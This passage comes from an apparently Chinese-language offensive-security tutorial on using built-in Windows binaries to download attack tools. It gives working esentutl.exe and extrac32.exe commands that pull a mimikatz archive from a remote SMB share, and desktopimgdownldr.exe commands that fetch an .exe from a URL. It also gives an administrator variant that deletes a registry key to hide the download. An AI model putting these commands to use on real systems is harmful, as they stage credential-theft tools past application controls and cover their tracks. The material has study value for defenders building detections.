 2.pubprn.vbs

在 Windows 7 以上版本存在一个名为 PubPrn.vbs 的微软已签名 WSH 脚本，其位于

```
C:\Windows\System32\Printing_Admin_Scripts\en-US
```

3.esentutl.exe/extrac32.exe

```
esentutl.exe /y "\\172.16.249.149\share mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /0
extrac32.exe /Y /C \\172.16.249.149\share\test.txt C:\Users\Public\test.txt
```

![2022-11-18_13558.png](/2022-11-18_13558.png)

4.desktopimgdownldr.exe

desktopimgdownldr.exe 位于 Win10 的 system32 文件夹中，原本用于设置锁定屏幕或桌面背景图像的。

普通用户可以用：

```
set "SYSTEMROOT=C:\ProgramData" && cmd /c desktopimgdownldr.exe /lockscreenurl:http://url/xxx.exe /eventName:desktopimgdownldr
```

这样来下载文件。

![2022-11-18_79957.png](/2022-11-18_79957.png)

可以把 C:\ProgramData 来改成一个普通用户可写的目录。

下载的文件存放于：

```
C:\ProgramData\Personalization\LockScreenImage\x_%random%.exe.
```

![2022-11-18_82117.png](/2022-11-18_82117.png)

管理员用户会多写一个注册表项，所以管理员最好的命令是：

```
set "SYSTEMROOT=C:\ProgramData\" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://url/file.exe /eventName:desktopimgdownldr && reg delete HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP /f
```